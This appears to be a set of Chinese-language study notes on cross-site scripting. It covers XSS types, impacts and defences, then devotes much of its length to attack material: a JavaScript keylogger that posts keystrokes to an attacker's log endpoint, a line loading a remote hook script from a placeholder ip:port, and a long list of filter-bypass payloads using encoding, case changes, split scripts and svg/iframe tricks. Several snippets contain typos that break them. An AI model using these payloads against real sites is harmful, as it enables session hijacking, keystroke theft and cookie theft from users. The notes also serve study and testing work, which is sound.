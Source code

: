 # XSS

cross site script 跨站脚本攻击，攻击者往web页面或者url中插入恶意js代码，若应用程序对用户输入的内容没有过滤，正常用户访问页面的时候，嵌入在web页面中的恶意js代码执行，导致恶意攻击正常用户



漏洞位置：

1. 数据交互的地方
   - get post cookies headers方法
   - 富文本编辑器
   - 各类标签插入和自定义
2. 数据输出的地方
   - 用户资料
   - 关键词、标签、说明



### 漏洞危害

- 窃取用户cookie
- 检测键盘输入
- 客户端信息探查
- xss getshell
- 劫持用户会话
- 执行弹窗广告
- 传播蠕虫病毒、

### 漏洞防御

1. 使用xss filter（过滤客户端提交的有害信息）
2. 输入过滤 
3. 输入验证 对提交的信息有效验证
4. 输出编码  html实体代替字符

### 检测方法

![image-20210728093211705](xss/image-20210728093211705.png)

![image-20210728094627367](xss/image-20210728094627367.png)

![image-20210728114828643](xss/image-20210728114828643.png)

![image-20210728151644246](xss/image-20210728151644246.png)

#### 反射型XSS

1. 非持久性、参数型的跨站脚本，反射型XSS的JS代码，在WEB应用中的参数中，如搜索框的反射型XSS
2. 存在位置，常见于通过url传递参数的功能
3. 攻击手法：欺骗用户自己去点击链接才能触发XSS代码

#### 存储型XSS

1. 定义：持久性跨站脚本，将恶意代码写入数据库或文件中等可以永久存储的介质中
2. 存在位置：留言板、发布评论或者发布文章的地方
3. 攻击手法：通过留言板功能，将构建的XSS代码保存到数据库中，其他用户访问此页面，自动执行恶意的XSS代码，从而窃取用户的敏感数据

#### DOM型XSS

1. 概念：不经过后端，DOM-XSS漏洞是基于文档对象模型的一种漏洞，简单理解就是因为输出点在DOM。DOM-XSS通过url传入参数去控制触发。
2. 攻击手法：攻击者构造出特殊的url，其中包含恶意代码，用户打开带有恶意代码的url，用户浏览器接收到响应后解析执行，前端js取出url中的恶意代码并执行，恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作



```html
<script language="php">phpinfo()</scipt>
```




![image-20210729093350515](xss/image-20210729093350515.png)

```javascript
#获取键盘记录
document.onkeypress=function(evt){//onkeypress是按下及那盘按键的事件
    evt=evt?evt:window.event;//三目运算符，为了让js代码兼容更多的浏览器
    key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);//处理键码值兼容性问题
    if(key){varhttp=newXMLHttpRequest();//XMLHttpRequest()，js用来发起网络请求
        varparam=encodeURI(key);//进行编码
        http.open(“POST”,“log.php的位置”,true);//以POST方法打开链接
        http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
        http.send("key="+param);//发送请求
    }
}
```



## :dvd:xss利用

```
<script src="http://ip:port/hook.js"><script>
访问带有勾子的页面，网站会被浏览器勾住
```





### :fu:xss绕过姿势



```javascript
1.空格使用/绕过。 img/src='#'/onerror="alert(1)"
2.回车的使用
onclick
=alert(1)
3.伪协议
href="javascript:alert(/xss/)"
src="javascript:alert(/xss/)"
4.事件利用(windows、keyboard、mouse、from、media事件)
<img scr="a.jpg" onmouseover="alert(/xss/)">
其他事件(onkeydown,onkeyup,onclick,onerrer)
5.其余标签
svg是H5语言中的标签
<svg onload="alert(/xss/)"
<input onfocus=alert(/xss/)autofocus>获取焦点
6.大小写转换
SRc="" ONerror="alert(/xss/)"
7.对标签属性进行转码
<ahREf="javaScript:alert(/xss/)">clickme</a>
|
|
\/
<a Href="j&#97;v&#x61;script:alert(/xss/)">clickme!</a>编码
8.拆分跨站
<script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script>
9.双写绕过
<scr<script>ipt>
10.进制转换
<imgsrc=#onerror=eval(String.fromCharCode(97,108,101,114,116,40,34,100,101,99,105,109,97,108,34,41))>
11.jsfuck编码
```



```html
#基础
<script>alert(1)</script>
<input onchange="alert(1)">
<img src"x" onmouseover="alert(1)">
<img src=x onerror=alert`1`>
    


<img src="" onerror=alert&#x28;&#x31;&#x29;>
<svg/onload=alert&#40;1&#41;>
    
    
onclick
=alert(1)
    
<img src=x onerror=alert(1)
\n



    


当然还有下面一些payload，同样都是利用编码绕过，只是标签不同而已：

<script>window.onerror=eval;throw'=alert\x281\x29'</script>//利用js捕获抛出错误执行弹框，Unicode编码
<iframe srcdoc="<script>parent.alert&#40;1&#41;</script>">//利用HTML5中iframe的特点，其srcdoc属性里的代码会作为iframe中的内容显示出来，srcdoc中可以直接去写转译后的HTML片段
<svg><script>alert&#40;1&#41</script>//svg标签可直接执行实体字符即HTML转义字符，若不添加在前则包含解析script
```

 ![image-20210729165849224](xss/image-20210729165849224.png)

![image-20210729173026888](xss/image-20210729173026888.png)

![image-20210729173349899](xss/image-20210729173349899.png)

```javascript
#变形及绕过
大小写 <ahREf="javaScript:alert(/xss/)">clickme</ a> 

引号 HTML语言中对引号的使用不敏感，但是过滤函数对引号很严格< img src="#" onerror="alert(/xss/)"/>
< img src='#' onerror='alert(/xss/)'/> 
    
左斜线[/]代替空格 <ImgsRc='#'Onerror="alert(/xss/)"/>-><Img/sRc='#'/Onerror='alert(/xss/)'/> 

回车 添加水平制表符和回车符，分割语句，来绕过关键字检测
一些函数不可以加回车，比如事件：onmoveover、onerror等 

对标签属性值进行转码 ASCII码、十进制编码、十六进制编码、base64编码(atob解码、btoa编码)、unicode编码等<ahREf="javaScript:alert(/xss/)">clickme</ a>-><AhREf="j&#97;v&#x61;script:alert(/xss/)">clickme!</ a> 注：可以在任何位置插入：Tab（&#9）、换行（&#10）、回车（&#13）可以在头部位置插入：SOH（&#1）、STX（&#2）
<AhREf="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">clickme!</ a> 其他：jsfuck编码*只能执行js代码，不能

转html代码http://www.jsfuck.com/
如<imgsrc=#onerror=alert(1)>中的alert(1) 
拆分跨站 当应用程序没有过滤XSS关键字符（如<、>）却对输入字符长度有限制的情况下，如何使用“拆分法”执行跨站脚本代码

<script>z='alert'</script><script>z=z+'(/xss/)'</script><script>eval(z)</script> 

双写绕过 <scr<script>ipt> 
CSS中的变形（了解） 使用全角字符:width:expression(alert(/xss/))注释会被浏览器忽略:width:expr/*~*/ession(alert(/x~s~s/))样式表中的[\]和[\0]:<style>@import 'javasc\ri\0pt:alert("xss")';</style>
```





